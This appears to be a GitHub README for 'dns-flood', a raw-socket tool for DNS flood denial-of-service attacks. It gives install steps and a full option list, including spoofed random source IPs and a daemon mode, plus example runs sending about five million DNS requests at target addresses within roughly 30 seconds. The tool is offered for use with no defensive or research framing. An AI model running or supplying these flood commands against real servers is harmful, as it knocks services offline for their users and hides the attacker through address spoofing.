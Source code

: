# dns-flood
Original DNS-Flood tool found on code.google.com

Use raw sockets to generate DNS flood attack.

Original Here: https://code.google.com/p/dns-flood/

## How to install

1. Clone Repo
2. Run Make
 
## How to run

Usage:
```bash
./dnsflood <query_name> <destination_ip> [options]  
	Options:  
	-t, --type		query type  
	-s, --source-ip		source ip  
	-p, --dest-port		destination port  
	-P, --src-port		source port  
	-i, --interval		interval (in millisecond) between two packets  
	-n, --number		number of DNS requests to send   
	-d, --duration          run for at most this many seconds   
	-r, --random		fake random source IP  
	-D, --daemon		run as daemon  
	-h, --help          print this message   
```
Example:
```bash
$ ./dnsflood abf.auction.co.kr 127.0.0.1 -d 30
sent 5333186 DNS requests in 30.000000 sec.
$
$ ./dnsflood abf.auction.co.kr 10.40.196.84 -n 5000000
sent 5000000 DNS requests in 28.000000 sec.
$
```
